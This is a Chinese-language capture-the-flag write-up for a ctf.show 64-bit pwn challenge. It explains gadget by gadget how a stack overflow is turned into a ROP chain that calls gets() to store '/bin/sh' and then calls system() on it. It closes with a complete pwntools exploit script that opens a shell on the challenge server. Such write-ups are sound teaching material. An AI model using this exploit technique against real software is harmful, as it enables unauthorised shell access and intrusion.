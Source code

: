 # 挑战简介
64位的 system(); 但是好像没"/bin/sh" 上面的办法不行了，想想办法

# 思路
没有binsh，就创造binsh，system有，get有  
所以构造ROP利用链 **填充 + 第一次调用链: 调用 gets(buf2_addr) + 第二次调用链: 调用 system(buf2_addr)**

## 第一次利用链

p64(rdi_addr) (0x4007f3): 这是第一个被执行的gadget地址。这个地址指向 pop rdi; ret 指令。当被溢出的函数返回时，RIP（指令指针）会指向这里。

pop rdi: 从栈顶弹出一个值（即下面的 buf2_addr）放入 RDI 寄存器。  
ret: 从栈顶弹出下一个地址（即下面的 ret_addr）放入 RIP，程序跳转到那里。

p64(buf2_addr) (0x602080): 这是 pop rdi 指令要弹出的值。buf2_addr 是一个程序数据段（如 .bss 或 .data）中的地址，通常是可读可写的。执行 pop rdi 后，RDI 寄存器的值就变成了 buf2_addr。这是为了给接下来的 gets 函数准备参数。   

p64(ret_addr) (0x4004fe): 这是 pop rdi; ret 中的 ret 指令要跳转到的地址。这个地址通常指向一个简单的 ret 指令。在64位系统中，有时需要它来做栈对齐。某些函数（尤其是libc中的函数，如 system）要求在调用它们时，栈指针 RSP 必须是16字节对齐的。call 指令会隐式地将返回地址（8字节）压栈，可能导致栈不对齐。插入一个 ret gadget可以弹出8字节，有助于恢复对齐。即使不是严格必需，它也不会破坏ROP链。执行这个 ret 后，程序会从栈顶弹出下一个地址（即下面的 get_addr）并跳转。

p64(get_addr) (0x400530): 这是 gets 函数（或者功能类似的函数，如 read）的地址。此时，RDI 寄存器里已经是 buf2_addr。执行这个地址的代码就相当于调用了  gets(buf2_addr)。程序会等待用户输入，并将输入的内容存放到 buf2_addr 指向的内存区域。  

发送 "/bin/sh": 在payload发送后，脚本紧接着 p.sendline("/bin/sh")。这行输入会被上面调用的 gets(buf2_addr) 读取，并存储在 0x602080 这个地址。

## 第二次利用链

当 gets 函数执行完毕返回时，它会从栈上寻找返回地址。此时栈顶就是我们payload中 gets 地址后面的部分。

p64(rdi_addr) (0x4007f3): 又一次指向 pop rdi; ret。

pop rdi: 从栈顶弹出值（下面的 buf2_addr）放入 RDI。  
ret: 跳转到栈顶的下一个地址（下面的 ret_addr）。

p64(buf2_addr) (0x602080): 这是 pop rdi 弹出的值。此时，0x602080 这个地址里存放的是我们刚刚输入的字符串 "/bin/sh"。执行 pop rdi 后，RDI 指向了字符串 "/bin/sh"。这正是调用 system 函数所需要的参数。

p64(ret_addr) (0x4004fe): 同样是为了栈对齐或简单地过渡到下一个地址。执行 ret 后，跳转到栈顶的 system_addr。

p64(system_addr) (0x400520): 这是 system 函数的地址。此时 RDI 已经包含了 "/bin/sh" 字符串的地址。执行这个地址的代码就相当于调用了 system("/bin/sh")。

---
```
#!/usr/bin/python3

from pwn import *
context.log_level = "debug"

p= remote("pwn.challenge.ctf.show",28181)

offset = 0xA + 0x8

system_addr = 0x400520

rdi_addr = 0x4007f3

ret_addr = 0x4004fe

buf2_addr = 0x602080

get_addr = 0x400530

payload = b'a' * offset + p64(rdi_addr) + p64(buf2_addr) + p64(ret_addr) + p64(get_addr) + p64(rdi_addr) + p64(buf2_addr) + p64(ret_addr) + p64(system_addr)

print(payload)

p.sendline(payload)

p.sendline("/bin/sh")

p.interactive()
```
